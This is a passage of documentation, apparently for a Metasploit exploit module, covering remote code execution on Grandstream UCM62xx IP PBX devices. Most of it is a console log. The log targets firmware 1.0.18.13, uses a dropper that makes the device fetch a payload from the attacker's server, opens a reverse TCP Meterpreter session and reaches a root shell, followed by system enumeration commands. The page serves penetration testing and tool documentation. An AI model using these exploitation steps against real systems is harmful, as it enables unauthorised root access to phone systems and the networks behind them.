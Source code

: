 ### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.18.13. Get Meterpreter session.

```
msf > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > check

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[*] 10.0.0.9:8089 - The target appears to be vulnerable. This determination is based on the version string.
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/unV0mXd6RPWD
[*] Local IP: http://10.0.0.3:8080/unV0mXd6RPWD
[*] Client 10.0.0.9 (Wget/1.10.1) requested /unV0mXd6RPWD
[*] Sending payload to 10.0.0.9 (Wget/1.10.1)
[*] Sending stage (903400 bytes) to 10.0.0.9
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51031 ) at 2022-01-15 12:12:28 -0800
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > shell
Process 4990 created.
Channel 1 created.
whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
cat /proc/cpuinfo
Processor	: ARMv7 Processor rev 10 (v7l)
processor	: 0
BogoMIPS	: 1988.29

processor	: 1
BogoMIPS	: 1987.37

Features	: swp half thumb fastmult vfp edsp neon vfpv3
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x2
CPU part	: 0xc09
CPU revision	: 10

Hardware	: Freescale i.MX 6Quad/DualLite/Solo based Board
```
